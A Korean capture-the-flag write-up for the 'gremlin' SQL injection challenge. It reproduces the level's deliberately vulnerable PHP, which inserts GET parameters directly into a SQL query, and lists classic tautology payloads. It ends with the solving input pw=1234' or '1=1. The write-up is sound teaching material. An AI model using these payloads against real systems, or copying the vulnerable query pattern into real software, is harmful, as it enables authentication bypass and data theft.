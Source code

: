 # GREMLIN

## Problem
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## Background Knowledge
* [SQL Injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
	- SQL 인젝션은 응용 프로그램 보안 상의 허점을 의도적으로 이용해, 악의적인 SQL문을 실행하여 데이터베이스를 비정상적으로 조작하는 코드 인젝션 공격 방법이다.
	- 구현
		+ 걸러지지 않은 탈출 문자
			- `' OR '1'='1`
			- `' OR '1'='1' {`
			- `' OR '1'='1' --`
			- `' OR '1'='1' /* `
		+ 정확하지 않은 타입 핸들링
		+ 블라인드 SQLi

## Inspection
* `preg_match`로 거르는 것은 다른 테이블을 건드는 것을 막기 위함이지, 문제에 관한 것은 아니다.
* `select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'`
	- 파라미터로 `id`와 `pw`를 넘겨준다.
	- 이 파라미터들이 위 쿼리문에 들어간다.
* `if($result['id']) solve("gremlin");`
	- 위 쿼리문을 날렸을 때 `id` 열의 결과물이 있어야 통과한다.
* 파라미터에 `'`를 날려도 걸러지지 않는다.

## Solution
* 걸러지지 않는 탈출 문자(`'`)가 있으므로 이를 활용한다.
	- `?id=guest&pw=1234' or '1=1`
	- 쿼리가 `select id from prob_gremlin where id='guest' and pw='1234' or '1=1'` 와 같이 정상적으로 처리된다.